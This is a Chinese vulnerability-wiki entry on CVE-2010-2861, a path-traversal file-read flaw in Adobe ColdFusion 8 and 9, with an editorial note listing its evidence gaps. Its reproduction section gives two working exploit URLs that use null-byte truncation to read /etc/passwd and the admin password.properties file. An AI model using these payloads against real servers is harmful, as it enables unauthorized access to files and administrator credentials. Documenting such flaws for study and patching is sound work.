


# （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响8/9分支、管理路径可达、空字节路径截断适用环境
- 证据范围：两个URL读passwd与password.properties，未说明凭据格式/后续鉴权

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 图片后重复路径残文
- 0-sec.org为真实域名应换保留示例地址
- 8/9版本过宽缺修复update，需明确文件读取受服务权限约束

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Adobe ColdFusion
8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

二、漏洞影响
------------

Adobe ColdFusion 8

Adobe ColdFusion 9

三、复现过程
------------

直接访问`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

AdobeColdFusion文件读取漏洞/media/rId24.png)

读取后台管理员密码`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

AdobeColdFusion文件读取漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/coldfusion/CVE-2010-2861/
